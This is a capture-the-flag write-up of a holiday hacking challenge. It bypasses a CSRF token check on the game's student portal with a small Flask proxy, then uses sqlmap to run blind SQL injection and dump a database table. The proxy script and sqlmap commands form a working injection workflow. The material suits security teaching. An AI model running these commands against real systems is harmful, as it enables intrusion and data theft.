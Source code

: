 # Retrieve the Scraps of Paper from Server
**Hint**: [Pepper Minstix - "Graylog"](../hints/h9.md)

## Request
> Gain access to the data on the [Student Portal](https://studentportal.elfu.org/) server and retrieve the paper scraps hosted there.  
> What is the name of Santa's cutting-edge sleigh guidance system?  
> For hints on achieving this objective, please visit the dorm and talk with Pepper Minstix.  
>  
> Krampus:  
> Unfortunately, I managed to lock out my account on the server.  
> Hey! You’ve got some great skills. Would you please hack into my system and retrieve the scans?  
> I give you permission to hack into it, solving Objective 9 in your badge.  
> And, as long as you're traveling around, be sure to solve any other challenges you happen across.

## Resources
- [Student Portal](https://studentportal.elfu.org/)
- [OWASP SQL Injection](https://www.owasp.org/index.php/SQL_injection)
- [SQLMAP Tamper Scripts for The Win](https://pen-testing.sans.org/blog/2017/10/13/sqlmap-tamper-scripts-for-the-win)

## Solution
Pepper hints at using blind SQLi to retrieve the scraps from the server but whipping out [sqlmap](http://sqlmap.org) won't do us much good at this point. Both the `apply.php` and `check.php` pages contain a set of custom JavaScript functions that first retrieve a token value from `validator.php`. This value is then added to the form data and submitted to the server as a way to prevent [Cross-site request forgery](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)) (CSRF). For each request the server will first check the token and only accept the request if the token is valid.

![JavaScript](../img/challenges/c9/c9_1.png)

In other words, unless we tell sqlmap to submit a valid token with each of its requests, chances are the SQLi attempts won't even hit the backend database. Fortunately for us sqlmap has a `--csrf-url` option which allows you to specify a URL from where to retrieve tokens. Unfortunately for us, sqlmap also requires specifying the token field name via the `--csrf-token` option and `validator.php` doesn't set any token field names. It just returns the token value as-is.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url https://studentportal.elfu.org/validator.php --csrf-token=
```

![Token Response](../img/challenges/c9/c9_2.png)
![Sqlmap Fail](../img/challenges/c9/c9_3.png)

The problem can be solved by translating the `validator.php` response data to a format that sqlmap accepts (i.e. contains a token field name in the header or response body). Pepper's hint refers to sqlmap [tamper scripts](https://pen-testing.sans.org/blog/2017/10/13/sqlmap-tamper-scripts-for-the-win) as a way to solve this but the below [Flask proxy script](../scripts/token_proxy.py.md) does the job as well. When the script receives a GET request it grabs a token value from `validator.php` and adds it as a value to a `token` field in both the header and body of its own HTTP response. 

```python
#!/usr/bin/env python3
# token_proxy.py
import requests
from flask import Flask, Response
app = Flask(__name__)


@app.route("/")
def token():
    """Return a token."""
    url = 'https://studentportal.elfu.org/validator.php'
    token = requests.Session().get(url).text
    # Put the token in the body, input tag, and header.
    resp = Response(
        f'Token:{token}\n'
        '<form>\n'
        f'  <input type="hidden" id="token" name="token" value="{token}"/>\n'
        '</form>\n'
    )
    resp.headers['token'] = token
    return resp


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

Start the Flask proxy app so it's ready to respond to incoming token requests.

```shell
python3 token_proxy.py
```

![Flask Proxy](../img/challenges/c9/c9_5.png)
![Proxy Token Response](../img/challenges/c9/c9_4_both.png)

Now run the earlier sqlmap command again but with the `--csrf-url` parameter set to 'http://127.0.0.1:5000' and `--csrf-token` to 'token'. This will allow sqlmap to send valid HTTP requests to the server and execute its blind SQLi attacks.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token
```

![Sqlmap Success 1](../img/challenges/c9/c9_6.png)
![Sqlmap Success 2](../img/challenges/c9/c9_7.png)

We now know the database type (i.e. MySQL) and that the setup is vulnerable to at least three types of SQL Injection attacks via the `elfmail` GET parameter: boolean-based blind, error-based, and time-based blind. Grab an overview of the available databases.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token --dbms=mysql --dbs
```

![Sqlmap DBs](../img/challenges/c9/c9_8.png)

`information_schema` is a default MySQL database so request the tables for `elfu`.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token --dbms=mysql --tables -D elfu
```

![Sqlmap Tables](../img/challenges/c9/c9_9.png)

Out of the three tables in the `elfu` database `krampus` looks like a good candidate so let's dump that.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token --dbms=mysql -D elfu -T krampus --dump
```

![Sqlmap Dump](../img/challenges/c9/c9_10.png)

Well that looks pretty promising. Download the PNG files from the Student Portal and reassemble them using an image editor.

![Letter](../img/challenges/c9/letter.png)

Looks we're still missing an important piece of the letter which could help identify our attacker and solve this whole mystery, but at least we now know the name of Santa's cutting-edge sleigh guidance system, `Super Sled-o-matic`.

## Answer
Sleigh guidance system name: `Super Sled-o-matic`

## Hint
> Wow! We’ve uncovered quite a nasty plot to destroy the holiday season.  
> We’ve gotta stop whomever is behind it!  
> I managed to find this protected document on one of the compromised machines in our environment.  
> I think our attacker was in the process of exfiltrating it.  
> I’m convinced that it is somehow associated with the plan to destroy the holidays. Can you decrypt it?  
> There are some smart people in the NetWars challenge room who may be able to help us.
